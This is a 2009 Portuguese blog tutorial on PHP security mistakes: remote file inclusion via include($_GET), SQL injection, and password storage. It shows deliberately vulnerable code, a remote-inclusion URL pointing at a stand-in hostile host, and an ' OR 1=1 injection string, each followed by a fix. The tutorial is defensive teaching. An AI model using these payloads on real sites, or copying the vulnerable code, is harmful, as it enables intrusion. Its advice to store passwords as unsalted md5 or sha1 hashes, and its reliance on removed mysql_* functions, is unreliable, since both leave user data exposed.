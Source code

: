 ```yaml
---
layout: post
title: Principais falhas de segurança no PHP
excerpt: Veja um pouco sobre cada uma das principais falhas de segurança criadas pelos
  iniciantes em PHP e que podem deixar um site de portas abertas para o mundo...

date: '2009-03-24 20:08:33 -0300'
categories:
- PHP
- Artigos
- Segurança
tags: []
---
```

Hoje vou falar sobre alguns erros comuns que são cometidos por programadores que estão começando agora. Resolvi fazer esse post pois vejo diariamente em fóruns de PHP pessoas com erros em scripts que possuem rombos enormes de segurança...

Não prometo deixar o seu sistema tão protegido quanto o <a title="Cadillac One" href="/arquivos/2009/03/cadillac-one.jpg" target="_blank"><em>carro do Obama</em></a> mas, sem dúvida, você vai evitar que muita gente faça um estrago considerável no seu site.

Se você se identificar com algumas dessas medidas não saia correndo e se jogue da ponte... Faça os devidos ajustes e tudo ficará bem.

<h4>Cuidados com a URL - Parte I</h4>
Uma falha muito comum são aqueles sites que, tentando usar um sistema "legal", acabam abusando da sorte... São sites que incluem o conteúdo <span style="color: #999999;">(via <strong>include()</strong>)</span> baseado em uma variável do método $_GET. Exemplo:


[code language="php"]
<?php
	// Verifica se a variável $_GET['pagina'] existe
	if (isset($_GET['pagina'])) {
		// Pega o valor da variável $_GET['pagina']
		$arquivo = $_GET['pagina'];
	} else {
		// Se não existir variável, define um valor padrão
		$arquivo = 'home.php';
	}
	include ($arquivo); // Inclui o arquivo
?>
[/code]

E na URL do site ficaria:
<span style="color: #008080;">http://www.meusite.com.br/?<span style="color: #0000ff;">pagina=contato.php</span></span>

Com isso o "invasor" pode, por exemplo, colocar um caminho de um script externo no lugar da variável:
<span style="color: #008080;">http://www.meusite.com.br/?<span style="color: #0000ff;">pagina=<span style="color: #ff0000;">http://sitedumal.net/deleta-banco.php</span></span></span>

O seu site incluiria o arquivo normalmente e executaria tudo que existe dentro dele... O resto você já pode imaginar.

Evitar que isso aconteça é extremamente simples: é só criar um <em>array </em>contendo os nomes dos arquivos que poderão ser incluídos, dessa forma:


[code language="php" wrap="false"]
<?php
	// Define uma lista com os arquivos que poderão ser chamados na URL
	$permitidos = array('home.php', 'produtos.php', 'contato.php', 'empresa.php');

	// Verifica se a variável $_GET['pagina'] existe E se ela faz parte da lista de arquivos permitidos
	if (isset($_GET['pagina']) AND (array_search($_GET['pagina'], $permitidos) !== false)) {
		// Pega o valor da variável $_GET['pagina']
		$arquivo = $_GET['pagina'];
	} else {
		// Se não existir variável $_GET ou ela não estiver na lista de permissões, define um valor padrão
		$arquivo = 'home.php';
	}
	include ($arquivo); // Inclui o arquivo
?>
[/code]

Viu? Adicionamos uma única linha e mais uma condição e está tudo resolvido. Com isso, se o atacante colocar lá o site dele na URL do seu site o PHP vai identificar que a variável <strong>$_GET['pagina']</strong> existe mas não está no <em>array </em><strong>$permitidos</strong>, então ele vai incluir o arquivo <strong>home.php</strong>.

<h4>Cuidados com a URL - Parte II</h4>
Outro erro comum é quando passamos parâmetros pela URL, por exemplo: o ID de uma categoria ou de um produto que, mais tarde, será buscado direto no banco para recolher algumas informações.

Geralmente o formato é o seguinte:
<span style="color: #008080;">http://www.meusite.com.br/produtos.php?<span style="color: #0000ff;">id=12</span></span>
ou
<span style="color: #008080;">http://www.meusite.com.br/?pagina=produtos.php&<span style="color: #0000ff;">id=12</span></span>

Com isso <span style="color: #999999;">(se você não se preparar) </span>você deixa uma porta aberta para um ataque famoso chamado <strong>SQL-Injection</strong> que nada mais é do que a inserção de um código SQL em um campo de texto ou parâmetro da URL que será enviado diretamente para o banco. Vamos a um exemplo:


[code language="php"]
<?php
// Formato da URL:
//  http://www.meusite.com.br/produtos.php?id=12

// Salva o parâmetro da URL numa variável
$produto = $_GET['id'];

// Monta a consulta MySQL
$sql = "SELECT * FROM `produtos` WHERE `id` = '".$produto."' LIMIT 1";

// Executa a query
$query = mysql_query($sql);

// Salva o resultado (em formato de array) em uma variável
$resultado = mysql_fetch_assoc($query);

?>
[/code]

A sua consulta ao MySQL ficaria da seguinte forma:


[code language="sql"]
SELECT * FROM `produtos` WHERE `id` = '12' LIMIT 1
[/code]

Até aqui tudo bem.. Seu script funciona, você tem o que precisa e tá tudo na mais perfeita harmonia... Mas chega um <span style="text-decoration: line-through;">desocupado</span> invasor e modifica a sua URL deixando da seguinte forma:

<span style="color: #008080;">http://www.meusite.com.br/produtos.php?<span style="color: #0000ff;">id=<span style="color: #ff0000;">' OR 1=1 OR ''='</span> </span></span>

Agora a sua query MySQL fica assim:


[code language="sql"]
SELECT * FROM `produtos` WHERE `id` = '' OR 1=1 OR '' = '' LIMIT 1
[/code]

Viu o que aconteceu? As possíveis condições para a consulta ser verdadeira são: id igual a vazio, 1 igual a 1 e vazio igual a vazio... Essa consulta vai ser dada como verdadeira e todos os produtos serão retornados. Sim meu amigo, é o fim do mundo.

Mas, como eu disse, não estou aqui para te assustar e sim para mostrar como resolver o pepino... Vamos a uma atitude simples mas que te salvará do Apocalipse... É só mudar uma linha:


[code language="php"]
// Salva o parâmetro da URL numa variável obrigando-o a ser um valor inteiro
$produto = (int)$_GET['id'];
[/code]

Com isso eu digo que valor da variável <strong>$produto</strong> será igual ao <strong>valor inteiro</strong> <span style="color: #999999;">(<em>int </em>de integer)</span> da variável <strong>$_GET['id']</strong>. Problema resolvido meus caros!

Se o atacante colocar uma string como parâmetro <span style="color: #999999;">(todo SQL-Injection é uma string)</span> ela será convertida para inteiro... E o valor inteiro de uma string é igual a zero.  8-)

Peço <span style="color: #ff0000;"><strong>atenção dobrada</strong></span> para o entendimento desse último exemplo pois o <strong>SQL-Injection</strong> é o ataque mais comum dos últimos tempos.

Caso você passe parâmetros via URL que são strings e não números inteiros, você pode usar a função <strong>mysql_real_escape_string()</strong> da seguinte forma:


[code language="php"]
$parametro = mysql_real_escape_string($_GET['nome']);
[/code]

Com isso você evita o uso de aspas e caracteres protegidos do MySQL mantendo a sua <em>query </em>segura. Esse caso também vale para formulários dos quais os dados vão direto para consultas MySQL <span style="color: #999999;">(formulários de login, cadastro e comentários, por exemplo)</span>.

<h4>Sobre Usuários e Senhas</h4>
Outro ponto muito importante é não exibir, em momento algum, o nome de login <span style="color: #999999;">(usuário)</span> de algum usuário cadastrado no sistema. Lembre-se que para um usuário conseguir invadir a conta do outro ele precisa de duas coisas: usuário <span style="color: #999999;">(ou e-mail)</span> e a senha.. Se ele souber o usuário já tem 50% de sucesso.

Vale lembrar também que você <strong>não precisa</strong> deixar a senha do usuário na forma real quando salva-la no banco. É muito mais seguro salvar um <strong>md5() </strong>ou <strong>sha1()</strong> da senha no banco e quando for necessário fazer a validação do usuário você também gera o <strong>md5()</strong> ou <strong>sha1()</strong> da senha que ele digitou e compara com o que há no banco. Assim, se por ventura alguém conseguir invadir e pegar todos os registros do banco de usuários, o máximo que ele irá conseguir são o usuário/e-mail e uma senha criptografada.

Se quiser saber como funciona criptografica no PHP é só ver esse post:» <a href="/criptografia-no-php-usando-md5-sha1-e-base64">Criptografia no PHP usando md5, sha1 e base64</a>

Espero que tenham gostado. :)

